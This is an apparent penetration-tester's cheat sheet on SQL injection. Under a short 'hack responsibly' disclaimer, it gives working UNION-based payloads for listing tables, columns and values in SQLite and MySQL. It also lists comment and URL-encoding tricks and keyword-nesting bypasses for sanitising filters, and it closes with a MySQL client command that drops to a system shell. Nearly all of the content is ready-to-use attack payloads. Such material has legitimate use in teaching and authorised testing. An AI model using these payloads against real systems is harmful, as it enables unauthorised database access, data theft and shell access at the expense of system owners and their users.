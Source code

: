 # SQL

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## SQLi - SQL Injection

[SQL Injection Cheatsheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

Blind SQL injection UNIoN queries: [Ippsec:HacktheBox - Charon](https://www.youtube.com/watch?v=_csbKuOlmdE) use `CONCAT("x","x")`

### SQL Injection Tips

`--` -&gt; Comments in Linux  
`--+` -&gt; Comments in Windows  
`%23 (#)` -&gt; Hash Symbol  
`%2527 (')` -&gt; to bypass urldecode\(urldecode\(htmlspecialchars\(, ENT\_QUOTES\)\)\);

### Manual UNION SQLite Injection

_Table_

```sql
1' union all select 1,tbl_name,3 FROM sqlite_master WHERE type='table' limit 0,1 --
```

_Columns \(as command\)_

```sql
1' union all select 1,sql,3 FROM sqlite_master WHERE type='table' and tbl_name='nameoftable' limit 0,1 --
```

_Values \(payload depends on the columns structure\)_

```sql
1' union all select 1,"nameofcolumn",3 FROM "nameoftable" limit 2,1 --
```

### Manual UNION SQL Injection

_Table_

```sql
1' union select (select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()),2#
```

_Columns_

```sql
1' union select (select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='nameoftable'),2#
```

_Values_

```sql
1' union select (select nameofcolumn from nameoftable limit 0,1),2#
```

_Using Newline_

```sql
admin %0A union %0A select %0A 1,database()#
           or
admin %0A union %0A select %0A database(),2#
```

_Bypass preg\_replace_

```sql
ununionion select 1,2%23
     or
UNunionION SEselectLECT 1,2,3%23
```

## Misc



get shell in mysql: `\! /bin/sh`



